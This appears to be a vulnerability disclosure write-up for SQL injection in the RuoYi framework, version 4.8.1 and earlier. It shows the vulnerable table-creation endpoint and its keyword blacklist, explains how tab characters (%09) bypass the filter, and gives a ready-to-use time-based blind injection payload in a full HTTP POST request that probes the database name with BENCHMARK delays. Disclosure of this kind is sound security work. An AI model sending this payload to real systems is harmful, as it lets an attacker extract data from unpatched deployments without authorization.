




# Ruoyi 4.8.1 sqli injection
Ruoyi is an open-source project on GitHub with 6.8k stars. This vulnerability bypasses the blacklist in the code, leading to an SQL injection vulnerability.
## Version & Reference
ruoyi ≤4.8.1

https://github.com/yangzongzhuan/RuoYi
## Vulnerable Code
The vulnerability exists in `/com/ruoyi/generator/controller`, and the relevant code is as follows.
```java
@RequiresRoles("admin")
    @Log(title = "创建表", businessType = BusinessType.OTHER)
    @PostMapping("/createTable")
    @ResponseBody
    public AjaxResult create(String sql)
    {
        try
        {
            SqlUtil.filterKeyword(sql);
            List<SQLStatement> sqlStatements = SQLUtils.parseStatements(sql, DbType.mysql);
            List<String> tableNames = new ArrayList<>();
            for (SQLStatement sqlStatement : sqlStatements)
            {
                if (sqlStatement instanceof MySqlCreateTableStatement)
                {
                    MySqlCreateTableStatement createTableStatement = (MySqlCreateTableStatement) sqlStatement;
                    if (genTableService.createTable(createTableStatement.toString()))
                    {
                        String tableName = createTableStatement.getTableName().replaceAll("`", "");
                        tableNames.add(tableName);
                    }
                }
            }
            List<GenTable> tableList = genTableService.selectDbTableListByNames(tableNames.toArray(new String[tableNames.size()]));
            String operName = Convert.toStr(PermissionUtils.getPrincipalProperty("loginName"));
            genTableService.importGenTable(tableList, operName);
            return AjaxResult.success();
        }
        catch (Exception e)
        {
            logger.error(e.getMessage(), e);
            return AjaxResult.error("创建表结构异常");
        }
    }
```
The subsequent processing code of the SQL statement and the mapper code.





The blacklist code is located in `/com/ruoyi/common/utils/sql/SqlUtil.java`, and the relevant code is as follows:
```java
 public static String SQL_REGEX = "\u000B|and |extractvalue|updatexml|sleep|exec |insert |select |delete |update |drop |count |chr |mid |master |truncate |char |declare |or |union |like |+|/*|user()";
 public static void filterKeyword(String value)
    {
        if (StringUtils.isEmpty(value))
        {
            return;
        }
        String[] sqlKeywords = StringUtils.split(SQL_REGEX, "\\|");
        for (String sqlKeyword : sqlKeywords)
        {
            if (StringUtils.indexOfIgnoreCase(value, sqlKeyword) > -1)
            {
                throw new UtilException("参数存在SQL注入风险");
            }
        }
    }
```
The blacklist filtering function can be bypassed using `%09`. For example, `select%09` can be used to circumvent the filter.
## Reproduction of Vulnerability
POC：
`sql=create+table+ttg1+as+select%09+*+from+sys_job+where+1=1+union%09+select%09if(length(database())=2,BENCHMARK(90000000,SHA1('Hackitnow')),1),2,3,4,5,6,7,8,9,10,11,12,13;`
```java
POST /tool/gen/createTable HTTP/1.1
Host: 192.168.30.101
Content-Length: 173
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.30.101
Referer: http://192.168.30.101/tool/gen/createTable
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=98e069aa-c8f7-4116-af5a-a4ff7c85016f
Connection: keep-alive

sql=create+table+ttg1+as+select%09+*+from+sys_job+where+1=1+union%09+select%09if(length(database())=2,BENCHMARK(90000000,SHA1('Hackitnow')),1),2,3,4,5,6,7,8,9,10,11,12,13;
```
Here, the `length` function is utilized to deduce the length of the database name. The database name is `ry`, and its length is 2.

When the input is 3, the condition evaluates to false, and the `benchmark` function is not executed.


When the input is 2, the condition evaluates to true, and a `benchmark` delay injection is executed.




